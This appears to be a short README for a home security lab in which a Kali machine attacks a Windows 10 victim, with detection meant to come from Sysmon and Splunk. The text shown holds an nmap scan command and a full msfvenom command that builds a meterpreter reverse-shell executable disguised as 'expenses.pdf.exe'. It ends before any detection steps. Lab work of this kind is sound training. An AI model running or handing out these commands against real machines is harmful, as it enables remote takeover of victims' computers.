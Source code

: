 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview
This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using sysmon and Splunk

## Tools used
- Kali Linux (attacker machine)
- Windows 10 (victim machine)
- Splunk
- Sysmon

## Attack Simulation
Payload: `windows/meterpreter/reverse_tcp`
Tools used: `msfvenom`, `msfconsole`

Steps taken:
1. Find an open port using nmap -A -Pn <Victim IP address>
2. Generate the payload using:
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
 -f exe -o expenses.pdf.exe
3. Deliver the payload to the victim machine

